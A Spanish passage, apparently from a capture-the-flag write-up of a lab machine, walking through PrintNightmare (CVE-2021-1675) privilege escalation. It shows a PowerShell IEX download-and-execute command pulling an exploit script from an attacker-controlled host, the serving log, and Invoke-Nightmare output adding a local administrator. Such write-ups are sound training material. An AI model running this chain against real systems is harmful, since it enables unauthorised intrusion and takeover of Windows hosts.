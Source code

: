 Durante el análisis con **winPEAS**, se identificó que el proceso **`spoolsv.exe`** (servicio de cola de impresión de Windows) se encuentra activo en el sistema. Esta observación es crucial, ya que dicho servicio es vulnerable al **CVE-2021-1675**, también conocido como **PrintNightmare**.
![3](/assets/img/machines/driver/3.jpeg)

Tras identificar que el servicio **`spoolsv`** estaba activo y vulnerable, se procedió a **explotar la vulnerabilidad CVE-2021-1675 (PrintNightmare)** cargando un script de explotación remoto.  
```bash
*Evil-WinRM* PS C:\Windows\Temp\Privesc> IEX(New-Object Net.WebClient).downloadString('http://10.10.16.6/CVE-2021-1675.ps1')
```
Este comando combina varias funcionalidades de PowerShell para cargar y ejecutar código remoto en memoria sin necesidad de escribirlo en disco. El método `New-Object Net.WebClient` crea un objeto que permite realizar peticiones HTTP, y con `.DownloadString(...)`.

se descarga el contenido del archivo PowerShell alojado en un servidor web controlado por el atacante (en este caso, con IP **10.10.16.6**).
```bash
❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.11.106 - - [09/Jun/2025 01:35:42] "GET /CVE-2021-1675.ps1 HTTP/1.1" 200 -
```

se ejecutó `Invoke-Nightmare` con el objetivo de crear un nuevo usuario llamado **`test`** con la contraseña **`test123`** y asignarle privilegios de **administrador local**, logrando así una **escalada de privilegios** efectiva en el sistema comprometido.
```bash
*Evil-WinRM* PS C:\Windows\Temp\Privesc> Invoke-Nightmare -DriverName "Xerox" -NewUser "test" -NewPassword "test123"
[+] created payload at C:\Users\tony\AppData\Local\Temp\nightmare.dll
[+] using pDriverPath = "C:\Windows\System32\DriverStore\FileRepository\ntprint.inf_amd64_f66d9eed7e835e97\Amd64\mxdwdrv.dll"
[+] added user test as local administrator
[+] deleting payload from C:\Users\tony\AppData\Local\Temp\nightmare.dll
*Evil-WinRM* PS C:\Windows\Temp\Privesc> net user

User accounts for \\

-------------------------------------------------------------------------------
Administrator            DefaultAccount           Guest
test                     tony
The command completed with one or more errors.
```
